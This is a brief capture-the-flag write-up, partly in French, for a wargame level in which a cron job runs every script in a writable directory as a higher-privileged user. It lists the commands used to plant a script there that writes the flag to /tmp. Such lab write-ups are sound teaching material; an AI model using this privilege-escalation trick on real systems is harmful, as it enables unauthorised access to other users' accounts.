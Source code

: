 ## Défi 5  Crontab + Exploit

### Commandes réalisées

```bash
cat /var/mail/level05
cat /usr/sbin/openarenaserver
vim /opt/openarenaserver/exploit # (add "getflag > /tmp/code" inside)
chmod +x /opt/openarenaserver/exploit
watch -n 5 'cat /tmp/code; cat /opt/openarenaserver/exploit'
```

### The Outputs

```bash
# Crontask
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

# bash
#!/bin/sh
for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

### Exploit
```bash
getflag > /tmp/code
```
